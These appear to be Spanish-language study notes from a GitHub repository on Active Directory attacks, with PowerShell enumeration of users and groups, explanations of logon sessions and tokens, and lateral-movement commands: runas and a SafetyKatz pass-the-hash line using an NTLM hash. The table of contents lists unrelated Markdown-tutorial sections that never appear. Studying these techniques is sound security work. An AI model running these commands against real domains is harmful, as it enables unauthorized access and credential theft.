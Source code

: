 ## Tabla de contenido

- [Enumeración](#Enumeración).
- *[LogonSesssion](#LogonSesssion)*.
- [Token](#Token).
- [Movimiento_lateral](#Movimiento_lateral).
- - - [runas](#runas).
- [insertar imágenes](#insertar-imagenes).
- [Insertar enlaces](#insertar-enlaces).
- [Hacer anclaje](#hacer-anclaje).
- [Insertar una línea de código](#insertar-una-linea-de-codigo).
- [Insertar un bloque de código](#insertar-un-bloque-de-codigo).
- [Resaltar el código](#resaltar-el-codigo).
- [Insertar tablas](#insertar-tablas).
- [Otras referencias sobre Markdown](#otras-referencias-sobre-markdown).

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-The-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
